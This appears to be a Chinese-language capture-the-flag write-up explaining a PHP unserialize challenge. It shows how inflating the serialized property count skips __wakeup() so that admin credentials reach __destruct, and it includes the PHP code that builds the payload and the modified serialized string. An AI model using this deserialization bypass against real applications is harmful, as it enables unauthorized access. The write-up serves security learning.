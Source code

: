 ```php
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();
        }
    }
}
?>
```

关键：

```
不满足$this->password != 100
满足$this->username === 'admin'
但是第②步的时候username被初始化变为了guest
```

**问题就来了，在反序列化的时候会首先执行**`__wakeup()`**魔术方法，但是这个方法会把我们的username重新赋值，所以我们要考虑的就是怎么跳过**`__wakeup()`**，而去执行**`__destruct`——==属性个数的值大于实际属性个数时，会跳过 __wakeup()函数的执行==

构造序列化：最完整：

```php
<?php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
}
$a = new Name('admin', 100);
var_dump(serialize($a));
?>
```

private版执行结果

```
O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
修改属性个数：
O:4:"Name":3:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

简洁:

```php
<?php
class Name{
	public $username='admin';
	public $password= 100;
} 
$flag = new Name();
$flag_1 = serialize($flag);
echo $flag_1;
?>
```
